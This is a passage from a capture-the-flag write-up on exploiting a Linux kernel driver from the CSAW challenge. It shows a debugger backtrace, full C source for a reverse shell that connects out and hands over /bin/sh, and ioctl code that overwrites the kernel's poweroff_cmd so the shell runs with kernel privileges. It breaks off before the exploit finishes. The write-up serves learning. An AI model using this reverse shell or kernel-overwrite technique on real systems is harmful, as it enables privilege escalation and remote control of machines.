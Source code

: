 ```
───────────────────────────────────────────────────────────────────────────────────────────────[ BACKTRACE ]────────────────────────────────────────────────────────────────────────────────────────────────
 ► 0 0xffffffff813467fe security_task_prctl+78
   1          0x20000
   2              0x0
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
pwndbg> p/x $rbx+0x18
$3 = 0xffffffff81eb7df8
```
So now we have all the address we actually need! Let's go build the exploit...
For the reverse shell I am going to use [this](https://gist.github.com/0xabe-io/916cf3af33d1c0592a90), if you are asking why do we need a reverse shell is because we can't call any userland program to execute directly poweroff_work_func and I will show you a trick later...
```c
#include <stdio.h>
#include <unistd.h>
#include <netinet/in.h>
#include <sys/types.h>
#include <sys/socket.h>

#define REMOTE_ADDR "127.0.0.1"
#define REMOTE_PORT XXX

int main(int argc, char *argv[])
{
    struct sockaddr_in sa;
    int s;

    sa.sin_family = AF_INET;
    sa.sin_addr.s_addr = inet_addr(REMOTE_ADDR);
    sa.sin_port = htons(REMOTE_PORT);

    s = socket(AF_INET, SOCK_STREAM, 0);
    connect(s, (struct sockaddr *)&sa, sizeof(sa));
    dup2(s, 0);
    dup2(s, 1);
    dup2(s, 2);

    execve("/bin/sh", 0, 0);
    return 0;
}
```
So we can update the exploit from [leak](#Leak)...
Create a buffer to store the reverse_shell command:
```c
char *buf = malloc(0x1000);
memset(buf, '\0',0x1000);
strcpy(buf, "/reverse_shell\0"); // final null byte is really important!
```
Set poweroff_cmd to buf:
```c
//set the address
seek_channel.id = id;
seek_channel.index = poweroff_cmd - 0x10;
seek_channel.whence = SEEK_SET;
ioctl(fd,CSAW_SEEK_CHANNEL,&seek_channel);
//overwrite it	
struct write_channel_args write_channel;
write_channel.id = id;
write_channel.buf = buf;
write_channel.count = strlen(buf);
```